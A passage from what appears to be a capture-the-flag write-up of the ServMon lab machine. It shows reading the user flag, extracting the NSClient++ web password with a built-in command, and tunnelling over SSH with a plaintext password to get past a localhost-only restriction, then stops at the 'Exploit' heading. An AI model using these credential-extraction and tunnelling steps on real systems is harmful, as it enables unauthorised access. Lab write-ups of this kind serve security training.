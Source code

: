 I can also grab `user.txt`:

```

nadine@SERVMON C:\Users\Nadine\Desktop>type user.txt
67c99afb************************

```

## Priv: nadine –> SYSTEM

### Find NSClient++ Password

With a shell, I can get the NSClient++ password. I could do it by reading the `.ini` file, or just having the helper program tell me:

```

nadine@SERVMON C:\Program Files\NSClient++>nscp web -- password --display
Current password: ew2x6SsGTxjRwXOT

```

### Setup Tunnel

If I try to log in from `https://10.10.10.184:8443`, it blocks me:

![image-20200413103144194](https://0xdfimages.gitlab.io/img/image-20200413103144194.png)

Towards the top of `nsclient.ini`, there’s this:

```

; Undocumented key                                                                                  
allowed hosts = 127.0.0.1 

```

I need to come from localhost. I’ll re-SSH with a tunnel that runs from my localhost:8443 to localhost on ServMon:8443:

```

root@kali# sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443                                                                                                            [1/1]
Microsoft Windows [Version 10.0.18363.752]          
(c) 2019 Microsoft Corporation. All rights reserved.
                                                          
nadine@SERVMON C:\Users\Nadine>

```

### Exploit
